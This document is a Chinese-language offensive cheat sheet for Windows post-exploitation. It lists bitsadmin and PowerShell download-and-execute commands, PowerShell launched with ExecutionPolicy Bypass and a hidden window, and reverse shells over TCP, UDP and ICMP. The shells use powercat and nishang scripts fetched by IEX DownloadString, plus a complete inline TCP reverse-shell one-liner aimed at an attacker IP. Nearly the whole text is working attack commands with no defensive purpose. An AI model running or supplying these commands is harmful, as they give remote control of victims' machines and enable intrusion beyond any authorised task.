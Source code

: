 # 下载文件


bitsadmin /transfer myDownLoadJob /download /priority normal "https://raw.githubusercontent.com/samratashok/nishang/bfeabd2e043dfef6392e8a930eb1d7a04392af36/Shells/Invoke-PoshRatHttps.ps1" "F:\test.ps1"

powershell "IEX (New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/samratashok/nishang/bfeabd2e043dfef6392e8a930eb1d7a04392af36/Shells/Invoke-PoshRatHttps.ps1','test.ps1')"

# 开启Web
## python
```
python -m SimpleHTTPServer 80
```
powershell "IEX (New-Object System.Net.WebClient).DownloadFile('http://192.168.52.134/11.py','test.py')"

# Powershell


```


```

# 反弹Shell
## Powershell
```
PowerShell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -File d:\Invoke-PowerShellUdp.ps1

IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```
### PowerCat
```
开启监听：
nc -lvp 6666
或者使用powercat监听
powercat -l -p 6666

目标机反弹cmd shell： 
powershell IEX (New-Object System.Net.Webclient).DownloadString ('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 192.168.159.134 -p 6666 -e cmd

```
### nishang反弹shell 
### Reverse TCP shell 
```
开启监听：
nc -lvp 6666

目标机执行：

powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 192.168.159.134 -port 6666
```

###  Reverse UDP shell 
```
开启监听：
nc -lvup 53

目标机执行： 
powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.134/nishang/Shells/Invoke-PowerShellUdp.ps1'); Invoke-PowerShellUdp -Reverse -IPAddress 192.168.159.134 -port 53
```

###  Reverse ICMP shell 
```
需要利用icmpsh_m.py (https://github.com/inquisb/icmpsh)和nishang中的Invoke-PowerShellIcmp.ps1 来反弹ICMP shell。 
首先攻击端下载icmpsh_m.py文件

icmpsh_m.py Usage： python icmpsh_m.py [Attacker IP] [Victim IP]
攻击者(192.168.159.134)执行： 
sysctl -w net.ipv4.icmp_echo_ignore_all=1 #忽略所有icmp包 python icmpsh_m.py 192.168.159.134 192.168.159.138 #开启监听

目标机(192.168.159.138)执行： 
powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.134/nishang/Shells/Invoke-PowerShellIcmp.ps1');Invoke-PowerShellIcmp -IPAddress 192.168.159.134
```

###  自定义powershell函数反弹shell 
```
利用powershell创建一个Net.Sockets.TCPClient对象，通过Socket反弹tcp shell，其实也是借鉴nishang中的Invoke-PowerShellTcpOneLine.ps1

攻击者(192.168.159.134) 开启监听：
nc -lvp 6666

目标机执行： 
powershell -nop -c "$client = New-Object Net.Sockets.TCPClient('192.168.159.134',6666);$stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```